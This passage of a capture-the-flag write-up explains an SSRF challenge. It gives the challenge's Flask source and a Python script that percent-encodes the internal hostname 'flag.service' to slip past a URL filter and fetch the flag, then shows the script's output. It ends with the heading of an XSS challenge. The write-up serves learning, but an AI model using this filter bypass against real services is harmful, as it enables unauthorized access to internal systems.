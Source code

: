 However, since the URL of the internal server is flag.service, you need to send a request to flag.service.

```python
from flask import Flask
from flask import request
from secret import FLAG

app = Flask(__name__)


@app.route('/flag', methods=['GET'])
def index():
    if request.host == "flag.service":
        return FLAG
    else:
        return "Nice try :)"

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=80)
```
We can get the flags by sending a request to http://flag.service/flag

```python
import requests

CHALLURL = 'http://localhost/' # http://3.38.33.163/
hostname = ''
parse_hostname = list('flag.service')

for s in parse_hostname:
    hostname += hex(ord(s)).replace('0x','%')

url = f'http://{hostname}/flag'
print(url)

FLAG = requests.post(CHALLURL, data={'url':url}).text
print(f'FLAG is {FLAG}')

'''
http://%66%6c%61%67%2e%73%65%72%76%69%63%65/flag
FLAG is cce2022{this_is_not_real_flag}
'''
```
This can be easily solved as above. When parsing a url, the hostname is parsed in the url-encoded state, but when sending a request, the url-encoded hostname is decoded.

---
# blue archive - web

This is a challenge for using simple XSS.
